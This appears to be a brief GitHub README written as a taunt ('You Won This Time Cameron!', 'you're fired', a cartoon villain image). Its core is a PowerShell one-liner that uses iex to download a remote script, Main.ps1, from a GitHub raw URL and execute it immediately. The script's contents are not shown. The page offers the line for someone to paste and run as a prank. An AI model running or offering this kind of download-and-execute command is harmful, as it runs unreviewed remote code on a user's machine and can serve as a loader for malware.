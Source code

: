 # YWTTC = You Won This Time Cameron!
#### But we all know who's gonna be the ultimate winner!!

iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/Refr3sh/YWTTC/main/Main.ps1'))

Also, you're fired!\
![alt text](https://banner2.cleanpng.com/20180525/lwh/kisspng-dexter-s-laboratory-mandark-s-lab-cartoon-networ-5b087754a2c022.5414427515272814926666.jpg)
